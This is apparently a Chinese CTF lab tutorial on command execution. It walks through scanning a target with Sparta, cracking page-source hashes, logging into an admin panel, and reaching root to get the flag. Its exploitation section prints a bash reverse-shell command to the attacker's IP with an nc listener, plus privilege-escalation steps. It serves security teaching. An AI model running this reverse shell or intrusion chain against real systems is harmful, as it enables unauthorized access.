# 网络安全CTF：P15：15.17.命令执行(使用集成工具测试) 🚩

在本节课中，我们将学习命令执行漏洞的原理，并通过一个完整的实战演练，学习如何使用集成化工具（如Sparta）进行信息探测、漏洞发现、权限提升，最终获取目标主机的flag值。

## 命令执行漏洞概述



上一节我们介绍了命令执行的基本概念，本节中我们来看看其产生的具体原因。





命令执行漏洞是这样产生的。当应用需要调用一些外部程序去处理内容的情况下，就会用到一些执行系统命令的函数。例如在PHP语言中，有 `system()`、`exec()`、`shell_exec()` 等函数。



当用户可以控制命令执行函数中的参数时，就可以注入恶意系统命令到正常的命令中，造成命令执行攻击。在调用这些函数执行系统命令时，如果没有对用户的输入进行严格的过滤，那么用户输入将作为系统命令参数拼接到命令行中，最终导致命令执行漏洞。

## 实验环境搭建

以下是本次实验所使用的环境配置。

*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶机**：Linux系统，IP地址为 `192.168.253.18`。

在CTF比赛中，我们的核心目标是获取靶机上的flag值。所有测试都应围绕此目标展开。

## 信息探测与工具使用

在开始攻击前，第一步是进行信息探测。之前我们使用过Nmap、Dirb等命令行工具。本节我们将使用一个更高级的集成化图形工具——Sparta。

Sparta是一个具有用户界面的工具，它可以调用多种命令行工具（如Nmap、Nikto），并将结果集中展示在同一个框架中，方便我们进行分析。





### 连通性测试





首先，我们需要确认攻击机与靶机之间的网络连通性。







```
ping 192.168.253.18
```



如果收到ICMP响应回复，则证明网络是连通的。

### 使用Sparta进行综合扫描

接下来，我们打开Sparta工具进行综合信息探测。

1.  在终端输入 `sparta` 启动工具。
2.  在界面中输入靶机IP地址 `192.168.253.18`，并点击 “Add to scope” 将其加入扫描范围。
3.  Sparta会自动调用Nmap对目标进行端口扫描，同时也会使用Nikto等工具进行Web敏感信息探测。

扫描完成后，我们可以在结果中看到开放的服务。例如，可能发现开放了 **23端口(Telnet)**、**80端口(HTTP)** 以及 **8080端口(HTTP)**，并显示服务版本和使用的编程语言（如Python 2.7.1）。





## 深入分析与漏洞挖掘



获得初步扫描信息后，我们需要对其进行深入分析。

### 分析Web服务

针对开放的80和8080端口（HTTP服务），我们可以进行以下操作：

*   **右键点击端口**，选择在浏览器中打开，直接访问Web页面。
*   **使用右键菜单中的工具**，如 “WhatWeb” 扫描CMS信息，“Amap” 进行服务版本探测，“Nikto” 进行漏洞扫描。
*   **使用Dirbuster进行目录暴力破解**。在Sparta中右键选择 “Dirbuster”，设置字典文件（如 `/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`）和后缀名（根据识别到的框架，如Python使用 `.py`），开始扫描。



### 发现敏感信息



在扫描过程中，我们可能会发现一些敏感目录或文件：

*   **`/admin/`**： 这通常是网站的后台管理登录入口。
*   **`/dev/`**： Nikto扫描结果提示这可能是一个有趣的目录。

访问 `/dev/` 目录，可能会发现一个名为 “Web Shell” 的链接，但点击后提示需要服务器认证。这提示我们可能需要先获得登录权限。

### 获取登录凭证

此时，我们需要寻找可能的用户名和密码。一个常见的方法是**查看网页源代码**，寻找注释或隐藏的敏感信息。



1.  分别访问网站首页、登录页面 (`/admin/`) 和 `/dev/` 页面，查看其HTML源代码。
2.  在 `/dev/` 页面的源代码中，我们发现了多段哈希值（Hash）。
3.  将这些哈希值保存到一个文件中，然后使用在线哈希破解网站（如 crackstation.net）进行破解。
4.  破解成功后，我们获得了对应的明文，例如 `bob` 和 `bobcat`。



### 登录后台系统





使用破解得到的凭证（如用户名 `nick`，密码 `bobcat`）尝试登录 `/admin/` 后台。登录成功后，我们便获得了访问受限资源（如 `/dev/` 目录下的Web Shell）的权限。

## 漏洞利用与权限提升



成功进入后台后，我们的目标是找到可利用的漏洞点，获取系统权限。





### 发现命令执行点



再次访问 `/dev/` 页面，此时由于已登录，可以成功打开 “Web Shell” 链接。该页面允许用户执行一些受限的Shell命令，这本身就是一个潜在的命令执行漏洞点。

### 反弹Shell获取初始访问

为了获得一个更稳定的交互式Shell，我们使用反弹Shell技术。

1.  **在攻击机上监听端口**： 打开终端，使用Netcat监听一个端口（如4444）。
    ```
    nc -nlvp 4444
    ```
2.  **在Web Shell中执行反弹命令**： 在Web Shell的输入框中，注入一条反弹Shell的命令。命令需要根据目标系统环境调整，例如使用Bash反弹：
    ```
    bash -i >& /dev/tcp/192.168.253.12/4444 0>&1
    ```
    点击执行。
3.  **升级终端**： 在攻击机的Netcat终端接收到连接后，我们获得了一个简单的Shell。为了获得功能更完整的终端，可以执行：
    ```python
    python -c ‘import pty; pty.spawn(“/bin/bash”)’
    ```
    现在，我们拥有了一个在靶机上的交互式Bash Shell，但当前用户权限可能不是root。

### 权限提升 (Privilege Escalation)



接下来，我们需要将当前用户权限提升至root。



1.  **信息收集**： 使用 `id` 和 `whoami` 命令确认当前用户。使用 `ls -la` 或 `ls -alh` 查看当前目录及隐藏文件。
2.  **查找敏感文件**： 切换到用户家目录 (`cd ~` 或 `cd /home/username`)，仔细查看所有文件，特别是隐藏文件（以 `.` 开头的文件）。
3.  **分析提权线索**： 例如，发现一个名为 `.custom` 的隐藏目录，其中包含可执行文件 `customApp`。使用 `strings` 命令查看该文件中的可打印字符串，寻找线索（如注释中的密码提示）。
    ```
    strings customApp
    ```
4.  **提取并尝试密码**： 从 `strings` 的输出中分析并提取出可能的密码。
5.  **切换至root用户**： 使用 `su` 命令或 `sudo` 命令尝试提权。
    ```
    su root
    # 或
    sudo su
    ```
    输入上一步找到的密码。如果成功，命令提示符会变为 `#`，并且 `id` 命令显示 `uid=0(root)`。





## 获取Flag与总结

在CTF比赛中，获得root权限后的最终目标是找到并读取flag文件。

1.  **定位flag**： Flag通常存放在 `/root` 目录或 `/home` 目录下，文件名可能为 `flag`、`flag.txt`、`proof.txt` 等。
    ```
    find / -name “*flag*” 2>/dev/null
    cat /root/flag.txt
    ```
2.  **记录过程**： 完成挑战后，需要撰写 “Write-up”，详细记录从信息收集到获取flag的每一步操作、命令和思路。



**本节课中我们一起学习了**命令执行漏洞的完整利用链：从使用Sparta进行自动化信息收集，到分析扫描结果、发现敏感目录、破解哈希获取凭证、登录后台系统、利用Web Shell进行命令执行反弹Shell，最后通过分析本地文件进行权限提升并获取最终的flag。需要注意的是，实际CTF比赛中的命令执行漏洞往往带有各种过滤机制，选手需要灵活运用各种技巧进行绕过。